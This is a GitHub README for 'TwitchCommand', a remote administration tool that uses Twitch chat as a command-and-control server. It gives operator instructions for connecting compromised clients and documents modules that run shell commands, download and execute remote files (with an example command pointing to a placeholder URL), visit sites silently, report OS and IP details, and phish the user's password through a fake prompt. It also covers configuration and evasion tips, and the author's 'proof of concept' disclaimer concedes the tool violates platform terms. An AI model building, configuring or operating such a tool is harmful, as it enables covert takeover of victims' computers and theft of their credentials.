 # TwitchCommand [![PRs Welcome](https://img.shields.io/badge/PRs-welcome-brightgreen.svg?style=flat-square)](http://makeapullrequest.com) [![GPL Licence](https://badges.frapsoft.com/os/gpl/gpl.svg?v=103)](https://opensource.org/licenses/GPL-3.0/) [![Canadian Mental Health Association](https://i.imgur.com/GvXBeY4.png)](https://cmha.ca/donate)
A remote administration tool that uses Twitch Chat as a Command and Control server. This program connects clients to a designated Twitch Chat and listens for commands.

# Requirements
- Twitch account.
- Python 3.x
- PyInstaller (will be required with the next build.)

# Disclaimer
The usage of this program directly violates the Twitch Developer Agreement. The usage of it will lead to the termination of your account and possible further action based on the severity of its usage.

This program was created as a Proof of Concept and it is not intended to be used in a malicious way. I am not responsible for any damages or criminal charges that come from using it.

# Features/Modules
`cmd`  Windows CMD commands. Structured as `cmd command`

`de` Download and execute. File is removed after execution. Structured as `de link`. May throw `Win5 Error` if the user is prompted for UAC. Now supports all file types.

`visit`  Silently visits a website. Structured as `visit link`

`exit` Disconnects the tageted client(s). This does not remove the file. Structured as `exit`

`info` Returns the clients OS (including exact version) and IP address. Structured as `info`

`mbox` Opens a messagebox on the users pc. Structured as `mbox message`

`askpass` Prompts the user to enter their password then returns the value. Structured as `askpass`


# Usage
Navigate to the twitch page of the channel you selected when making the program.

Upon connection to a server, a new client will announce its presence and client name. If you would like to view a list of all connected clients please use the list command. 

![New Connection.](https://i.imgur.com/fT6yice.png)

`!list`

![List connections.](https://i.imgur.com/RY81sGt.png)

This program also features different modules which can be used.

`!act client command action`

- Act is the keyword to use a command for the client.
- Client specifies a singular user or a group. You can use a specific name (ex: DESKTOP-TEST) or 'all'.
- Command specifies the intended module to use.
- Action is what to use with the selected module. For example 'start.' will open the current directory on the clients PC when using CMD.

An example cmd command would be:

`!act all cmd start.`

![Client action.](https://i.imgur.com/g7d5P83.png)

This would open the current directory on every connected clients PC. Note that the photo is from an older version and True is no longer required.

An example download+execute command would be:

`!act DESKTOP-TEST de https://example.com/files/file.exe`


# Creating the program.
### Coming soon: a builder.
The requirements list is currently not necessary but will be for future builds.

Making the program is quite simple. 
- Change the NICK value on line 12 to your Twitch username.
- Change the PASS value on line 13 to your OAuth password (acquire it here: https://twitchapps.com/tmi/)
- Change the CHAN value on line 14 to a desired channel to listen in. It's recommended to use your personal twitch chat as a streamer may ban an account they see posting odd messages and commands.
- CLIENT_ID and the email information are currently not in use. The email functions will be used for password recovery and the CLIENT_ID will be a Imgur API client ID for screenshot uploads.

# Upcoming features
- Password recovery module.
- Screenshot module.
- Shellcode execution module (maybe.)
- A builder to simplify making the program as well as making it an exe.
- Command line based control module as an alternative to the twitch website.

# Acknowledgements
- n00py and Coalfire Research for inspiration from the [Slackor project.](https://github.com/Coalfire-Research/Slackor)
- nathanlopez from the Stitch project for the `mbox` and `askpass `[code.](https://github.com/nathanlopez/Stitch/blob/master/PyLib/popup.py)
